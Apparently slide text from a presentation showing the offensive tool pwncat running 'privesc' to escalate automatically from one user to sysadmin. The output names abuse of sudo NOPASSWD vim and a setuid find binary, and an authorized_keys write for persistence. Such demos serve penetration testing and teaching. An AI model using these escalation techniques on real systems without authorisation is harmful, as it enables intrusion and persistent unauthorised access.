

# privesc --escalate
Automatic privilege escalation
Escalate through multiple users
(local) pwncat$ privesc -e -u sysadmin
[17:32:35] privilege escalation succeeded using:
        	  ⮡ shell as developer via /usr/bin/vim (sudo NOPASSWD)
             ⮡ shell as sysadmin via /home/john/find (setuid)
       	  warning: euid/uid mismatch - attempting automated fix
[17:32:40] euid/uid corrected via authorized_keys!
[17:32:41] pwncat is ready 🐈

(remote) sysadmin@target:~$

pwncat can also automatically detect and fix mismatched EUID and UID after an attempted privilege escalation!